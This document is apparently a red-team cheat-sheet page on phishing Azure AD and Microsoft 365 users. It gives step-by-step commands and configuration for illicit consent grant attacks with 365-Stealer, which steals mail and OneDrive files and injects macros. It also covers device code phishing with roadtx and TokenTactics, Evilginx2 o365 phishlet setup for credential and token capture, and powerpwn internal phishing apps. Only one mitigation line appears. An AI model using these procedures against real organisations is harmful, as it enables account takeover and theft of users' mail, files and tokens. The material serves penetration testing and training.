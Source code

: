 # Azure AD - Phishing

## Illicit Consent Grant

> The attacker creates an Azure-registered application that requests access to data such as contact information, email, or documents. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to.

:warning: All Office 365 users will be protected from app-based attacks now that publisher verification is generally available as they "will no longer be able to consent to new multi-tenant apps registered after November 8th, 2020 coming from unverified publishers".

Check if users are allowed to consent to apps: `PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`

* **Disable user consent** : Users cannot grant permissions to applications.
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select** : All users can only consent to apps that were published by a verified publisher and apps that are registered in your tenant
* **Users can consent to all apps** : allows all users to consent to any permission which doesn't require admin consent.
* **Custom app consent policy**

### Register Application

1. Login to [https://portal.azure.com](https://portal.azure.com) > Azure Active Directory
2. Click on **App registrations** > **New registration**
3. Enter the Name for our application
4. Under support account types select **"Accounts in any organizational directory (Any Azure AD directory - Multitenant)"**
5. Enter the Redirect URL. This URL should be pointed towards our 365-Stealer application that we will host for hosting our phishing page. Make sure the endpoint is `https://<DOMAIN/IP>:<PORT>/login/authorized`.
6. Click **Register** and save the **Application ID**

### Configure Application

1. Click on `Certificates & secrets`
2. Click on `New client secret` then enter the **Description** and click on **Add**.
3. Save the **secret**'s value.
4. Click on API permissions > Add a permission
5. Click on Microsoft Graph > **Delegated permissions**
6. Search and select the below mentioned permissions and click on Add permission
    * Contacts.Read
    * Mail.Read / Mail.ReadWrite
    * Mail.ReadBasic
    * Mail.Send
    * Notes.Read.All
    * Mailboxsettings.ReadWrite
    * Files.ReadWrite.All
    * User.ReadBasic.All
    * User.Read

### Setup 365-Stealer (Deprecated)

:warning: Default port for 365-Stealer phishing is 443

* Run XAMPP and start Apache
* Clone 365-Stealer into `C:\xampp\htdocs\`
    * `git clone https://github.com/AlteredSecurity/365-Stealer.git`
* Install the requirements
    * Python3
    * PHP CLI or Xampp server
    * `pip install -r requirements.txt`
* Enable sqlite3 (Xampp > Apache config > php.ini) and restart Apache
* Edit `C:/xampp/htdocs/yourvictims/index.php` if needed
    * Disable IP whitelisting `$enableIpWhiteList = false;`
* Go to 365-Stealer Management portal > Configuration (`http://localhost:82/365-stealer/yourVictims`)
    * **Client Id** (Mandatory): This will be the Application(Client) Id of the application that we registered.
    * **Client Secret** (Mandatory): Secret value from the Certificates & secrets tab that we created.
    * **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized`
    * **Macros Location**: Path of macro file that we want to inject.
    * **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc.
    * **Delay**: Delay the request by specifying time in seconds while stealing
* Create a Self Signed Certificate to use HTTPS
* Run the application either click on the button or run this command : `python 365-Stealer.py --run-app`
    * `--no-ssl`: disable HTTPS
    * `--port`: change the default listening port
    * `--token`: provide a specific token
    * `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
* Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.

### Vajra

> Vajra is a UI-based tool with multiple techniques for attacking and enumerating in the target's Azure environment. It features an intuitive web-based user interface built with the Python Flask module for a better user experience. The primary focus of this tool is to have different attacking techniques all at one place with web UI interfaces. - [TROUBLE-1/Vajra](https://github.com/TROUBLE-1/Vajra)

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".

### Roadtx

* Use the authorization code flow in `roadtx` to get token

```ps1
roadtx codeauth -c <app-id> -r msgraph -t <tenant-id> <0.A....> -ru 'https://<phish-app>/redir' -p <app-secret>
```

## Device Code Phishing

* Using roadtool: `roadtx gettokens -u user@domain.lab --device-code`

    ```ps1
    roadtx.exe auth --device-code -c 29d9ed98-a469-4536-ade2-f981bc1d605e
    Requesting token for resource https://graph.windows.net
    To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code XXXXXXXXX to authenticate.
    ```

* Using TokenTactics to request a token for Azure Graph API using a device code

    ```ps1
    Import-Module .\TokenTactics.psd1
    Get-AzureToken -Client Graph
    ```

* Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
* Leave TokenTactics running in the PowerShell window and send the phishing email
* Targeted user will follow the link to [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) and complete the Device Code form
* Enjoy your **access token** and **refresh token**

## Phishing with Evilginx2

* Run [kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) with o365 phishlet

    ```powershell
    PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
    : config domain username.corp
    : config ip 10.10.10.10
    : phishlets hostname o365 login.username.corp
    : phishlets get-hosts o365
    ```

* Create a DNS entry type A for `login.login.username.corp` and `www.login.username.corp`, pointing to your machine
* Copy certificate and enable the phishing

    ```ps1
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
    : phishlets enable o365

    # get the phishing URL
    : lures create o365
    : lures get-url 0
    ```

### Internal Phishing - Power Platform

> Set up an internal phishing application on a Microsoft-owned domains which will automatically authenticate as users browse to your link.

* Install [mbrg/power-pwn](https://github.com/mbrg/power-pwn) - An offensive and defensive security toolset for Microsoft 365 Power Platform

    ```ps1
    pip install powerpwn
    ```

* Install the application: `powerpwn phishing install-app -t {tenant-id} -e {environment-id} --input {path to application package zip} -n {application name}`
* Share application with org: `powerpwn phishing share-app -t {tenant-id} -e {environment-id} -a {app id}`

## References

* [Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [Learn with @trouble1_raunak: Cloud Pentesting - Azure (Illicit Consent Grant Attack) - trouble1_raunak - Jun 6, 2021](https://www.youtube.com/watch?v=51FSvndgddk&list=WL)
* [The Art of the Device Code Phish - Bobby Cooke - July 12, 2021](https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html)
* [Power Pwn - Black Hat Arsenal 2023 - Aug 24, 2023](https://www.youtube.com/watch?v=LpdckZyBwvs)
* [Low Code High Risk - Enterprise Domination via Low Code Abuse - Defcon 30 - Oct 20, 2022](https://www.youtube.com/watch?v=D3A62Rzozq4)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
